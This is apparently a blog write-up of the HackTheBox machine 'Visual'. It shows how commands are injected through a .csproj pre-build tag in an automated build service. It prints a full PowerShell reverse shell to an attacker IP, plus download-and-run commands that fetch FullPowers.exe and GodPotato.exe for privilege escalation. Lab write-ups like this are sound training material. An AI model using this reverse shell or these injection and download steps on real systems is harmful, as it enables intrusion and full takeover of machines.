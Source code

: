 ```yaml
---
layout: post
title: "Visual 0840890c71974a4cb941dd43720bdafa"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Visual

HackTheBox: Medium

<aside>
💡 Visual is a windows machine which handles with repositories and build visual studio projects

</aside>

## 1: Enumeration

- nmap scanning

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled.png' | relative_url }})

We find there’s a http service hosted in apache with php

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_1.png' | relative_url }})

This service allows to make the build project in a automated way, we can see a section where we just put the url repo and wait for it.

First at all we test functionality

To get into the machine successfully we need some files:

1. A repository with c# code
2. A file .csproj and .sln
3. A rev shell to access to the machine once the code is injected

> The machine doesn’t have access to internet therefore we need to run a private server where we could get the repo, we get this in this way
> 

```bash
git --bare clone external_repo
cd repo/.git
git --bare update-server-info
mv hooks/post-updte.sample hooks/post-update
cd ..
python -m http.server 8000
```

> .csproj = This file has the possibility of iinject commands through prebuild tag.
> 

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_2.png' | relative_url }})

 

## 2: User flag

```bash
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.14', 2222);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
	$writer.Flush();
	$read = $null;
	$res = ""
	while($stream.DataAvailable -or $read -eq $null) {
		$read = $stream.Read($buffer, 0, 1024)
	}
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
	if(!$out.equals("exit")){
		$args = "";
		if($out.IndexOf(' ') -gt -1){
			$args = $out.substring($out.IndexOf(' ')+1);
			$out = $out.substring(0,$out.IndexOf(' '));
			if($args.split(' ').length -gt 1){
                $pinfo = New-Object System.Diagnostics.ProcessStartInfo
                $pinfo.FileName = "cmd.exe"
                $pinfo.RedirectStandardError = $true
                $pinfo.RedirectStandardOutput = $true
                $pinfo.UseShellExecute = $false
                $pinfo.Arguments = "/c $out $args"
                $p = New-Object System.Diagnostics.Process
                $p.StartInfo = $pinfo
                $p.Start() | Out-Null
                $p.WaitForExit()
                $stdout = $p.StandardOutput.ReadToEnd()
                $stderr = $p.StandardError.ReadToEnd()
                if ($p.ExitCode -ne 0) {
                    $res = $stderr
                } else {
                    $res = $stdout
                }
			}
			else{
				$res = (&"$out" "$args") | out-string;
			}
		}
		else{
			$res = (&"$out") | out-string;
		}
		if($res -ne $null){
        $writer.WriteLine($res)
    }
	}
}While (!$out.equals("exit"))
$writer.close();
$socket.close();
$stream.Dispose()
```

Con este rev shell ponemos en escucha en el puerto establecido y ya obtenemos acceso 

```powershell
cmd /c type c:\Users\enox\Desktop\user.txt
```

## 3: Priv esc

wrapper pred:

```powershell
cd C:\xampp\htdocs\uploads
```

Revisamos privilegios

```powershell
whoami /priv
```

Check some privileges and look “ImpersonatePrivilege” is not present

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_3.png' | relative_url }})

We cannot modify or access to files but we can create them

Use the server early running and add fullpowers, a POC that rest default privileges

With impersonate privileges we can assume other identities, sometime interesting that happens to me in this machine is that i had to reset the machine to make work fullpowers properly

```powershell
cmd /c powershell Invoke-WebRequest -Uri http://10.10.00.000:0000/fullpowers.exe -OutFile Fullpowers.exe
fullpowers.exe
```

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_4.png' | relative_url }})

We got all priv is time to use godpotato and get the whole power

```powershell
powershell Invoke-WebRequest -Uri http://10.10.14.14:8000/GodPotato.exe -OutFile GodPotato.exe
GodPotato-NET64 -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
```

There was a problem, godpotato which will allow us to run commands as system had 3 exe’s and only the 64 one worked

Machine pwned!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>

